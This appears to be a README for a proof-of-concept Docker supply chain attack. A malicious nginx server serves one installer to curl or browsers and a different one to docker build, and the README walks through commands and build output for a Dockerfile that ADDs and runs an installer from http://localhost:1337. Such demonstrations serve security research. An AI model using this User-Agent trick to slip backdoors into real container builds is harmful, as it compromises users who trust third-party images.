 # Rosenmontag
Supply chain attack proof of concept using ADD in a Dockerfile and a malicious nginx

# What is this about

We all know that curl-pipe-sudo-bash is a thing. Many think it is a bad thing. But we all use Docker now so this is not a problem any more.
In preparation for a talk I was thinking about ways to attack supply chains in Kubernetes or Docker environments. That was when I remembered when I learned that ADD in Dockerfiles lets you [copy files from remote URLs](https://docs.docker.com/engine/reference/builder/#add) (thanks [Matthias](https://twitter.com/uchi_mata) and [Chris](https://www.twitter.com/brompwnie) for their [Blackhat-EU19 talk](https://www.blackhat.com/eu-19/briefings/schedule/#reverse-engineering-and-exploiting-builds-in-the-cloud-17287) ).

So I tried to combine the evading techniques for curl-pipe-sudo-bash scenarios with Dockerfile ADD and remote URIs.

# Walkthrough

## Attackers part

The attacker provides a very useful application as a Docker container as open source. They also control a webserver that serves an installer. Depending on the request the webserver will serve a legitimate or a malicious installer.

Get sources from Github
```
git clone git@github.com:ramshazar/rosenmontag.git
cd rosenmontag/
```

Build the dockerfile of our malicous and let it run
```
cd malicious-nginx/
docker build -t rosenmontag-nginx .
docker run -p 1337:80 -d rosenmontag-nginx
```

## Victims part

The victim want to use a docker container by a third party. That is why they want to validate the Dockerfile and what is happening inside of it.

Get sources from Github (you should have done that already)
```
git clone git@github.com:ramshazar/rosenmontag.git
cd rosenmontag/
```

Take a look at the Dockerfile
```
cd evil-dockerfile/
cat Dockerfile
```

The content is straightforward. The docker build will use the official debian buster image and adds a wrapper file that later is going to start the process in the container.
After that the maintainer (the attacker) decided to download an installer from a remote location and confuses the victim with "security reasons".

The victim, knowing that copying installer from remote URLs is bad, decides to take a look at the installer.
```
curl http://localhost:1337/installer.sh
```

The output is very simple( do not copy this)
```
#!/bin/sh

echo "Installing everything needed by our application"
sleep 2
echo "Done"
```

Reassured our victim build the container.
```
docker build -t awesome-container-from-rosenmontag:1 .
```

The output will look like this
```
Sending build context to Docker daemon  3.072kB
Step 1/5 : FROM debian:buster-slim
 ---> 837fd7c8d960
Step 2/5 : COPY my_wrapper-script.sh /my_wrapper_script.sh
 ---> 1eadaf5c3365
Step 3/5 : ADD http://localhost:1337/installer.sh /tmp/installer.sh
Downloading [==================================================>]     412B/412B
 ---> 82e3b8007746
Step 4/5 : RUN chmod +x /tmp/installer.sh; /bin/sh /tmp/installer.sh
 ---> Running in 742a8abdbb0b
Definitely not running exploit code here
Adding files to your container
Changing wrapper script. Sorry :(
Done
Removing intermediate container 742a8abdbb0b
 ---> 43af7108c6ac
Step 5/5 : CMD /my_wrapper-script.sh
 ---> Running in c4d425313d37
Removing intermediate container c4d425313d37
 ---> a377b993eca5
Successfully built a377b993eca5
Successfully tagged awesome-container-from-rosenmontag:1
```

As you can see I echoed debug output to visualize where the attack happend.
The resulting image now differs from the expectation of the victim. I added additional files to the image and changed the wrapper. I would be able to add a backdoor there.

# Explanation of the attack

The malicious nginx config has a map that checks if the User-Agent is set to something like "Go-http-client". I assume that most people checking the content of the installer would use curl, wget or a browser to verify that the installer itself is not malicious. Docker build uses a go library to get the installer from the remote url. The malicious nginx than just serves a different installer.sh file.

# How can I defend against attacks like this

This is a question for Future-Matthias ¯\_(ツ)_/¯

# This already has been done by $other_person

Awesome! I would love to read about that! 

# What das Rosenmontag mean

It is [Rosenmontag](https://en.wikipedia.org/wiki/Rosenmontag) today.
